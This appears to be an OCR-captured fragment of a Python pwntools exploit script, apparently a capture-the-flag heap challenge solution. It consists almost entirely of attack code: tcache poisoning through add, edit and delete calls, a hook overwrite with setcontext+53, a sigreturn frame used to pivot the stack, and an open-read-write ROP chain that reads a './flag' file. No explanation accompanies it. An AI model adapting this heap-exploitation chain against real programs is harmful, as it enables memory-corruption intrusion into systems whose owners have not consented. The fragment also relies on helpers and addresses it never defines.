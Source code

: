 ```python
add(0,0x18)
edit(0,p64(setcontext+53))



frame=SigreturnFrame()
frame.rsp=stack
frame.rdx=0x200
frame.rsi=stack
frame.rdi=0
frame.rip=r

add(0,0x68)
delete(0)
edit(0,p64(helper+0x60))
add(0,0x68)
add(0,0x68)
pd=bytes(frame)
edit(0,pd[0x60:0x60+0x50])



add(0,0x58)
delete(0)
edit(0,p64(heap+0x1df0))
add(0,0x58)
add(0,0x58)
edit(0,p64(0x18)*2)



add(0,0x48)
add(0,0x48)
add(0,0x48)
add(0,0x48)
add(0,0x48)

add(0,0x48)



pd=p64(pop_rdi)+p64(stack+0x100)+p64(pop_rsi)+p64(2)+p64(pop_rax)+p64(2)+p64(syscall)
pd+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(stack+0x100)+p64(pop_rdx)+p64(0x100)+p64(r)
pd+=p64(pop_rdi)+p64(stack+0x100)+p64(w)
time.sleep(0.5)
sl(pd.ljust(0x100,b'\x00')+b'./flag\x00')


ia()
```
